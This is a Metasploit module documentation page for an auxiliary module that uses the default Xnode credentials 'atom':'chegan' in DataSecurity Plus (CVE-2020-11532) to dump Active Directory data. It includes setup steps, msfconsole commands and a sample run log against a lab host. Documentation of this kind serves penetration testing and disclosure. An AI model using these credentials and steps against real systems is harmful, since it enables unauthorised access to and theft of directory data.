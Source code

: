 ## Vulnerable Application
The module exploits default admin credentials for the DataEngine Xnode server in DataSecurity Plus versions prior to 6.0.1 (6011)
in order to dump the contents of Xnode data repositories (tables), which may contain varying amounts of Active Directory information
including domain names, host names, usernames and SIDs. The module can also be used against patched 
DataSecurity Plus versions if the correct credentials are provided.

The module's `check` method attempts to authenticate to the remote Xnode server. The default credentials are `atom`:`chegan`.
If the credentials are valid, the module will perform a few requests to the Xnode server to obtain information like the Xnode version.
This is mostly done as a sanity check to ensure the Xnode server is working as expected.

Next, the module will iterate over a list of known Xnode data repositories and perform several requests for each in order to:
- Check if the data repository is configured on the target
- Obtain the total number of records in the data repository
- Obtain both the lowest and the highest value for the ID field (column). These values will be used
to determine the range of possible records to be queried.

If a given data repository exists, the module uses the above information to dump the data repository contents.
The maximum number of records returned for a search query is 10. To overcome this, the module performs series of requests
using the `dr:/dr_search` action, while specifying the ID values for each record.
For example, if the lowest observed ID value is 15 and the highest is 41, the module will perform three requests:
1. A request for the records with ID values 15 to 24
2. A request for the records with ID values 25 to 34
3. A request for the records with ID values 35 to 41
Empty records are ignored.

To view the raw Xnode requests and responses, enter `set VERBOSE true` before running the module.

By default, the module dumps only the data repositories (tables) and fields (columns) specified in the configuration file.
The configuration file can be set via the `CONFIG_FILE` option, but this is not required because
a default config file exists at `data/exploits/manageengine_xnode/CVE-2020-11532/datasecurity_plus_xnode_conf.yaml`
that will be used if `CONFIG_FILE` is not set.

The configuration file is then also used to add labels to the values sent by Xnode in response to a query.
This means that for every value in the Xnode response, the module will add the corresponding field name to the results
before writing those to a JSON file in `~/.msf4/loot`.

It is also possible to use the `DUMP_ALL` option to obtain all data in all known data repositories without specifying data field names.
However, note when using this option the data won't be labeled.

This module has been successfully tested against DataSecurity Plus 6.0.1 (6010) running on Windows Server 2012 R2.

## Installation Information
Vulnerable versions of DataSecurity Plus are available [here](https://archives.manageengine.com/data-security/).
All versions from 6000 through 6011 are configured with default Xnode credentials. Note that testing against
vulnerable versions from the archives will make data enumeration impossible because the free trials for those
versions do not seem to allow ADAudit Plus to actually start collecting data that can then be accessed via Xnode.

However, apart from some configuration changes, Xnode functions the same way on patched versions as it does on vulnerable versions,
so it is possible to test the modules against patched versions as long as the correct credentials are provided.

A free 30-day trial of DataSecurity Plus can be downloaded [here](https://www.manageengine.com/data-security/download.html).
To install, just run the .exe and follow the instructions.

In order to configure a patched ManageEngine DataSecurity Plus instance for testing, follow these steps:
- Open the Xnode config file at `<install_dir>\apps\dataengine-xnode\conf\dataengine-xnode.conf`
- Note down the username and password
- Insert the following line:
```
xnode.connector.accept_remote_request = true
```
To launch DataSecurity Plus, run Command Prompt as administrator and run: `<install_dir>\bin\run.bat`

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/manageengine_datasecurity_plus_xnode_enum`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Options
### CONFIG_FILE
YAML File specifying the data repositories (tables) and fields (columns) to dump.

### DUMP_ALL
Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.

## Scenarios
### ManageEngine DataSecurity Plus 6.0.1 (6010) on Windows Server 2012
```
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > options 

Module options (auxiliary/gather/manageengine_datasecurity_plus_xnode_enum):

   Name         Current Setting                                                Required  Description
   ----         ---------------                                                --------  -----------
   CONFIG_FILE  /home/wynter/dev/metasploit-framework/data/exploits/manageeng  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ine_xnode/CVE-2020-11532/datasecurity_plus_xnode_conf.yaml
   DUMP_ALL     false                                                          no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     chegan                                                         yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.41                                                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29119                                                          yes       The target port (TCP)
   USERNAME     atom                                                           yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > run
[*] Running module against 192.168.1.41

[*] 192.168.1.41:29119 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.41:29119 - Target seems to be Xnode.
[+] 192.168.1.41:29119 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.41:29119 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.41:29119 - Target is running Xnode version: "XNODE_1_0_0".
[*] 192.168.1.41:29119 - Obtained Xnode installation path: "C:\Program Files (x86)\ManageEngine\DataSecurity Plus\apps\dataengine-xnode".
[*] 192.168.1.41:29119 - Data repository DSPEmailAuditAttachments is empty.
[*] 192.168.1.41:29119 - Data repository DSPEmailAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPEndpointAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPEndpointClassificationReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPEndpointIncidentReport is empty.
[*] 192.168.1.41:29119 - Data repository DspEndpointPrinterAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DspEndpointWebAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPFileAnalysisAlerts is empty.
[*] 192.168.1.41:29119 - Data repository RAAlertHistory is empty.
[*] 192.168.1.41:29119 - Data repository RAIncidents is empty.
[*] 192.168.1.41:29119 - Data repository RAViolationRecords is empty.
[*] Auxiliary module execution completed
```
